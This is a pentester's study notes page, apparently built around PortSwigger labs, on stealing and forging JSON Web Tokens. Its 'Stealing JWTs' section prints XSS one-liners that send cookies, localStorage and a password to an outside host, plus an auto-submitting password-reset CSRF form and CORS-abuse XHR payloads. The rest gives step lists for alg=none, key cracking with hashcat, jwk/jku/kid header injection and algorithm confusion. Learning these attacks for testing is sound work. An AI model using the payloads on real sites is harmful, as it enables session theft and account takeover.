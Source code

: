 # JWT

References :

https://github.com/ticarpi/jwt_tool/wiki/Using-jwt_tool


## JWKS common locations

Another common alternative is exposing a key (or set of keys) in a JWKS (JSON Web Key Store) file. Some common locations for this would be:

- /.well-known/jwks.json
- /openid/connect/jwks.json
- /jwks.json
- /api/keys
- /api/v1/keys

There are two standard header claims that can direct the service to the **Public Key** for verification:

- **jku** - a claim pointing towards the JWKS URL
- **x5u** - a claim pointing towards the X509 certificate location (could be in a JWKS file)

## Stealing JWTs


---

There's no need to hack JWTs if you can **steal** and replay them!

If you have other vulnerabilities in the application you may be able to steal or hijack the tokens of other users.

### XSS


```js
document.location='http://example.com/cookiestealer.php?c='+document.cookie;

or

new Image().src = 'http://example.com/log.php?localStorage='+JSON.stringify(window['localStorage']);

or

document.location='http://example.com/?password='+secretPasswordVariable;
```

### CSRF

JWT tokens stored in cookies (whether they are HTTPOnly or not) will be automatically sent by the browser when an authenticated user interacts with the target site. When a victim triggers a CSRF payload the browser will send the associated cookies including the token. The attacker won't be able to see these, but as they are being used to do the attacker's bidding that doesn't really matter.

**Example:**

```
<form id="autosubmit" action="http://www.example.com/account/passwordreset" enctype="text/plain" method="POST">
<input name="username" type="hidden" value="victim1" />
<input name="password" type="hidden" value="BadGuyKnowsThis!" />
<input type="submit" value="Submit Request" />
</form>
<script>
document.getElementById("autosubmit").submit();
</script>
```

### CORS Misconfiguration

When a site's CORS policy allows arbitrary origins as well as sending credentials it is possible to craft an attack page containing an XHR request to the webserver, while also capturing the response.

**This leads to two possible attack paths:**

1. If the JWT is returned in any HTTP responses from the application, the token can be read by the attacker when the 'trigger' request is sent. A good example of this is a JWT 'refresh token' or queries to an account page or login page.
    
2. If the JWT is sent in a cookie then CORS can be used as a type of CSRF to send the token without the attacker needing to see it.
    

**Example - XHR CORS:**

```
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.avictimwebsitewithJWTcookieauth.com/api/refreshtoken");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send();
</script>
```

**Example - XHR CSRF:**

```
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.avictimwebsitewithJWTcookieauth.com/api/passwordreset");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"newpass":"BadGuyKnowsThis!"}');
</script>
```

### Man-in-the-Middle

JWTs may also be seen in captured HTTP traffic, either in the header/body of unencrypted traffic, in log files of firewalls/gateways/other servers, in referrer links (if exposed as a URL parameter), or a range of other places.


## Attacks on JWT

### JWT authentication bypass via unverified signature

- Just change the JWT body and send request

###  JWT authentication bypass via flawed signature verification

- Change Body
- Change *alg* to **none**
- Remove Signature part (Not the dot at the end)

### JWT authentication bypass via weak signing key

- Crack Key used for Signature
```bash
hashcat -a 0 -m 16500 <YOUR-JWT> /path/to/jwt.secrets.list
```
- Change body in [jwt.io](https://jwt.io) and enter Key in Trailer field


### JWT authentication bypass via jwk header injection

- Generate RSA
- Repeater -> JSON Web Token TAB -> Attack -> Embedded JWK 
- Notice *jwk* added in header
- Change body
- Send request


```ad-note
Instead of using the built-in attack in the JWT Editor extension, you can embed a JWK by adding a `jwk` parameter to the header of the JWT manually. In this case, you need to also update the `kid` header of the token to match the `kid` of the embedded key.

```


### JWT authentication bypass via jku header injection

- Generate RSA
- Copy PK as JWK
- Create an endpoint of the PK:
```json
{ 
	"keys": 
[ 
	{ 
	"kty": "RSA", 
	"e": "AQAB", 
	"kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab", 
	"n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ" 
	}
 ]
```
- Change *kid* in you cookie with the generated one and **Inject** *jku* in the header the link to the endpoint containing our key :

```json
{  
 "alg": "RS256",  
 "jku": "https://mysite.com/keys.json"  
}
```

- Sign it in Burp **JSON Web Key** extention
- Send request

### JWT authentication bypass via kid header path traversal

- Generate Symetric Key with `key = null byte` base64 encoded (AA\==) 
![[Capture d’écran 2023-07-19 231603.png]]

- Change *kid* to `/dev/null` which represent Null byte
- Change Body
- Sign with the generated Key
![[Capture d’écran 2023-07-19 232035.png]]

### JWT authentication bypass via algorithm confusion

https://blog.silentsignal.eu/2021/02/08/abusing-jwt-public-keys-without-the-public-key/

- Get **Public Key**
	- Get **Public Keys** from [[#JWKS common locations]] 
	- or Crack it with `jwt_forgery.py`

```python
python3 jwt_forgery.py <jwt1> <jwt2>
```

![[Capture d’écran 2023-07-20 003929.png]]

To verify if the public key generated is right :

```python
python3 jwt_tool.py -V -pk <jwt_key>` to verify if its right
```

![[Capture d’écran 2023-07-20 005548.png]]

Or you can verify by using the **Tampered x509 JWT** and sending the request, if you get *200* then it's your account and it is the correct X.509 key.  Else repeat the Public key derivation Process.

- Copy **Public Key** with the blank line at the end !!
![[Capture d’écran 2023-07-20 011040.png]]

- **PEM** to **JWK** 
- Generate RSA key using the **JWK** we got from **PEM**
- Generate New Symetric Key with **base64 Encoded PEM** in *k* value :

![[Capture d’écran 2023-07-20 012443.png]]

- Change `alg` parameter to `HS256` 
- Change body as you like
- Sign it using the symetric Key
- Send Request

- [JWT authentication bypass via algorithm confusion with no exposed key](https://portswigger.net/web-security/jwt/algorithm-confusion/lab-jwt-authentication-bypass-via-algorithm-confusion-with-no-exposed-key)
